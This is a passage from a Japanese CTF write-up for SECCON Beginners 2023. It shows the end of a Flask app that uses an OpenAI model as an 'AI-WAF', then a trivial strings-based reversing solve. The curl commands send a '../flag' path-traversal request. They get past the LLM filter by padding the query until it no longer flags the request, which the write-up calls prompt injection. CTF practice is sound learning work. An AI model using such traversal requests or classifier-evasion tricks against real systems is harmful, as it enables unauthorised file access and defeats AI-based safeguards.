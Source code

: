 ```python
        )
        result = response.choices[0]["message"]["content"].strip()
    except:
        return abort(500, "OpenAI APIのエラーです。\n少し時間をおいてアクセスしてください。")
    if "No" in result:
        with open(f"./books/{file}", encoding="utf-8") as f:
            return f.read().replace(KEY, "")
    return abort(403, "AI-WAFに検知されました👻")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=31415)

```

```
❯ curl 'https://aiwaf.beginners.seccon.games/?file=../flag'
<!doctype html>
<html lang=en>
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>AI-WAFに検知されました👻</p>

❯ curl 'https://aiwaf.beginners.seccon.games/?padding=PADDINGPADDINGPADDINGPADDINGPADDINGPADDINGPADDING&file=../flag'
ctf4b{pr0mp7_1nj3c710n_c4n_br34k_41_w4f}
```


## reversing


### Half

{{ image(src="https://fs.arch4e.com/blog/writeup_seccon_beginners_ctf_2023/Half.png", alt="screenshot - probrem", position="center", style="width: 50vw") }}

いつもの

```
$ strings half | grep ctf
ctf4b{ge4_t0_kn0w_the

$ strings half | grep }
_bin4ry_fi1e_with_s4ring3}
```

